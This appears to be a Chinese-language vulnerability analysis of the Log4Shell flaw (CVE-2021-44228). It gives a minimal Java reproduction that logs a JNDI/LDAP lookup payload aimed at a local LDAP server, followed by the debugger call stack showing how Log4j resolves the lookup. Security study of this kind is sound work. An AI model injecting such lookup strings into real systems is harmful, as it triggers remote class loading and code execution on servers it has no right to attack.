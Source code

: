### 测试代码

```plain
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class CVE202144228 {
    public static final Logger logger = LogManager.getLogger(CVE202144228.class);
    public static void main(String[] args) {
        String message = "${jndi:ldap://127.0.0.1:1389/0xrsto}";
        logger.error("error info:{}",message);
    }
}
```

### 函数调用栈

根据 JNDI 的前置知识，在 InitialContext 类的 lookup 方法下断点或者 NamingManager 类的 getObjectFactoryFromReference 方法下断点

```plain
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2034, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1899, AbstractLogger (org.apache.logging.log4j.spi)
error:866, AbstractLogger (org.apache.logging.log4j.spi)
main:10, CVE202144228 (org.example)
```